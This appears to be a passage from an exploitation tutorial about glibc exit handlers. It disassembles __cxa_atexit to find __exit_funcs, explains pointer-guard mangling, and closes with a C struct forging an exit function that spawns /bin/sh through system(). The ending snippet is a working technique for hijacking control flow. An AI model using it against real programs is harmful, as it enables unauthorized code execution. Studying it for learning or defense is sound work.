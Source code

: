 By using a disassembler, we find the following instructions:

```assembly
00000000000471e0 <__cxa_atexit@@GLIBC_2.2.5>:
   471e0:       f3 0f 1e fa             endbr64
   471e4:       55                      push   rbp
   471e5:       48 89 e5                mov    rbp,rsp
   471e8:       41 56                   push   r14
   471ea:       41 55                   push   r13
   471ec:       41 54                   push   r12
   471ee:       53                      push   rbx
   471ef:       48 85 ff                test   rdi,rdi
   471f2:       0f 84 8e 00 00 00       je     47286 <__cxa_atexit@@GLIBC_2.2.5+0xa6>
   471f8:       48 8d 1d a9 dd 1b 00    lea    rbx,[rip+0x1bdda9]        # 204fa8 <__abort_msg@@GLIBC_PRIVATE+0x468>
   471ff:       49 89 d4                mov    r12,rdx
   47202:       49 89 fe                mov    r14,rdi
   47205:       49 89 f5                mov    r13,rsi
   47208:       31 c0                   xor    eax,eax
   4720a:       ba 01 00 00 00          mov    edx,0x1
   4720f:       f0 0f b1 13             lock cmpxchg DWORD PTR [rbx],edx
   47213:       75 5b                   jne    47270 <__cxa_atexit@@GLIBC_2.2.5+0x90>
   47215:       48 8d 3d 64 c4 1b 00    lea    rdi,[rip+0x1bc464]        # 203680 <__ctype_b@GLIBC_2.2.5+0x18>
   4721c:       e8 cf fd ff ff          call   46ff0 <__cxa_at_quick_exit@@GLIBC_2.10+0x20>
   47221:       48 85 c0                test   rax,rax
   47224:       74 54                   je     4727a <__cxa_atexit@@GLIBC_2.2.5+0x9a>
   47226:       4c 89 68 10             mov    QWORD PTR [rax+0x10],r13
   4722a:       4c 89 f2                mov    rdx,r14
   4722d:       4c 89 60 18             mov    QWORD PTR [rax+0x18],r12
   47231:       48 c7 00 04 00 00 00    mov    QWORD PTR [rax],0x4
   47238:       64 48 33 14 25 30 00    xor    rdx,QWORD PTR fs:0x30
   4723f:       00 00 
   47241:       48 c1 c2 11             rol    rdx,0x11
   /* ... */
```

As we can see in the source code, the `__cxa_atexit` uses `__exit_funcs` and pass it to `__internal_atexit`. But this call does not show up in the assembly because the compiler inlined the function. The `__internal_atexit` first locks the global lock, the finds a slot for the new exit function (using `__exit_funcs`) and then doing a null check on the result. This pattern also can be seen in the assembly: First there is the `lock cmpxchg` for the lock operation, then the call at offset `0x4721c` and the null check directly afterward. Thus, the instruction at `0x47215` gets the address of the argument to `__new_exitfn`, which is `__exit_funcs`. Thus, we found what we were looking for.

One obstacle we need to overcome, is the mangling/encryption of the function pointer with the pointer guard. The formula is:

$$ct = rol(fn \oplus \text{pointer\_guard}, 17)$$

where `ct` is the stored ciphertext, `rol` the rotate left function and $\oplus$ the xor operator.

With all of that understood, we can overwrite one of the exit functions with, because we set the pointer guard to zero. 
```c
struct exit_function rce = {
        .flavor = ef_cxa,
        .func.cxa =  {
            .fn = (void (*)(void *, int))(rol((long)system, 17)),
            .arg = "/bin/sh"
        }
    };
```
